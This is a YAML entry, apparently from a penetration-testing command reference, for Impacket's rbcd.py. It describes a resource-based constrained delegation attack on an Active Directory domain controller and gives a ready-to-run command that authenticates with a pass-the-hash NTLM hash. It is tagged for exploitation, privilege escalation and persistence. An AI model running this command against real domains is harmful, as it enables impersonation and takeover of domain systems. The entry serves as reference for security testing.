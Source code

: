 ```yaml
---
description: |
  Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer.
  The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01.
  This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.

  Command Reference:

    Target IP: 10.10.10.1

    Domain: test.local

    Username: john

    Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

    Delegate To: DC01$

    Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

